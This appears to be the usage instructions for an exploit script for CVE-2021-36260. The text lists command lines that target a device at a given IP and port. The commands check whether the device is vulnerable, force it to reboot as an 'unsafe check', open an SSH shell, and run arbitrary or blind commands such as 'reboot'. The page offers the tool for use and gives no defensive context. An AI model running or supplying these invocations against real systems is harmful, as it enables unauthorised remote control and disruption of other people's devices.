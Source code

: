 # CVE-2021-36260
CVE-2021-36260
./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check

Safe and unsafe vulnerability/verify check:
(will only use 'unsafe check' if not verified with 'safe check')
 $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check --reboot

Unsafe vulnerability/verify check:
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --reboot

Launch and connect to SSH shell:
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --shell

Execute command:
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd "ls -l"

Execute blind command:
$./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd_blind "reboot"

